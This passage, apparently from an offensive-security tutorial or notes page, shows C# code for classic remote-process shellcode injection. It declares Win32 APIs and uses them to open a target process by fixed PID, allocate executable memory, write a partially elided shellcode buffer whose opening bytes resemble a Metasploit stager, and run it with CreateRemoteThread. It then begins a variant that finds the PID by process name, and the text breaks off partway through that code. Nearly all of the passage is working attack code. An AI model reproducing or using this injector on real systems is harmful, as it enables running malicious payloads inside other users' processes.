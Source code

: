                 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
                static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        
                [DllImport("kernel32.dll")]
                static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        
                [DllImport("kernel32.dll")]
                static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
                static void Main(string[] args)
                {
                    IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
                    IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        
                    byte[] buf = new byte[591] {
                    0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                    ....
                    0x0a,0x41,0x89,0xda,0xff,0xd5 };
                                IntPtr outSize;
                    WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
        
                    IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
                }
            }
        }
        
      ```
        
      dynamic resolution of the PID  using `Process.GetProcessByName`.
        
      ```csharp
        using System;
        using System.Diagnostics;
        using System.Runtime.InteropServices;
        
        namespace Inject
        {
            class Program
            {
                [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
                static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        
                [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
                static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        
                [DllImport("kernel32.dll")]
                static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        
                [DllImport("kernel32.dll")]
                static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize,
                    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        